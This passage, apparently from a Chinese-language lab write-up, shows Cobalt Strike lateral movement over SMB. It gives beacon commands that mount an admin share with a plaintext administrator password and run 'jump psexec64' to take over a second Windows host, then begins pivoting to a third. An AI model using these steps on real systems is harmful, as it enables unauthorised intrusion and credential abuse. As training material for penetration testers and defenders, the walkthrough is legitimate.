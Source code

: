 除了 hostname 为 `FATHER` 的这台主机，还有两台主机的 445 端口开放：

- 172.31.51.190（主机2：`Windows 2008 R2 企业版 64位数中文版`，hostname: `son`）
- 172.31.51.192（主机3：`Windows 2008 R2 企业版 64位数中文版`， hostname: `bro`）

先通过 SMB 协议使 190 主机上线：


**2、 创建一个 SMB listener**

![title](https://leanote.com/api/file/getImage?fileId=5eba0b00ab64410531045c0f)

- 监听器名称为 `smb`
- Pipename 管道名称为 `test`


可以注意到这个 SMB 监听器并没有让我们指定端口，其实 CS 3.14 之前是可以指定端口的，但是在 CS 4.0 中直接删掉了IP 和端口的填写框。这是因为这个 Beacon Shell 会通过管道过去，只要对方机器的 445 端口保持畅通，那么端口其实用不用都无所谓，至于 IP 保持默认即可。

**3、 使用欲横向主机的凭据填充令牌**

```
beacon> shell net use \\172.31.51.190\admin$ /user:"administrator" "test1234@" 
beacon> ls \\172.31.51.190\c$
```

![title](https://leanote.com/api/file/getImage?fileId=5eba0dfdab6441030e0464a8)

**4、 SMB 链接过去**

```
beacon> jump psexec64 172.31.51.190 smb
```

![title](https://leanote.com/api/file/getImage?fileId=5eba1413ab6441030e04743d)

![title](https://leanote.com/api/file/getImage?fileId=5eba1247ab6441030e046fa4)


这样就通过 SMB 协议成功横向到了 172.31.51.190 这台主机，获取了其 SMB Beacon！

# 0x03 主机3 - link 链接

对于主机3（`172.31.51.192`），我想从主机2 （`172.31.51.190`）走 SMB 协议横向过去。


**1、填充凭据**

现在还要上线 172.31.51.192 这台主机，这台主机同样开放了 445 端口，另外它和 172.31.51.189 的凭据相同，那么主机1就已经有其令牌了。



可以看到从 `172.31.51.189` 可以直接查看192这台主机的 c 盘文件：

![title](https://leanote.com/api/file/getImage?fileId=5eba15a5ab6441053104777d)

但是在 `172.31.51.190` 这台主机就不可以：

![title](https://leanote.com/api/file/getImage?fileId=5eba15d3ab644105310477ea)
